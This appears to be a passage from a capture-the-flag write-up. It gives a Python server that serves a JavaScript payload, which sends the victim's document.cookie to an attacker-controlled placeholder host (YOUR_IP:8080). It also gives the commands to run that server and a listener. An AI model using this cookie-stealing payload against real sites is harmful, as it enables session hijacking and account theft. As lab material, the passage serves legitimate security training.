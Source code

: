 Finally, we will serve a payload on our controlled server to steal the user's cookie and send it to us.

```python
#!/usr/bin/python3

    
from http.server import BaseHTTPRequestHandler, HTTPServer

class ExploitHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == '/':
            self.send_response(200)
            self.send_header("Access-Control-Allow-Origin", "*")
            self.send_header("Content-type","text/html")

            self.end_headers()
            self.wfile.write(b"fetch('http://YOUR_IP:8080/' + document.cookie)")
def run_server(port=1337):   
    server_address = ('', port)
    httpd = HTTPServer(server_address, ExploitHandler)
    print(f"Server running on port {port}")
    httpd.serve_forever()

if __name__ == '__main__':
    run_server()
```

Run it by with the following command:

```python
sudo python3 server.py 
```

Note that the victim will make an additional request to port 8080; you can serve another Python web service by using:

```python
sudo python3 -m http.server 8080
```

Now, after around a minute, you should get the flag!
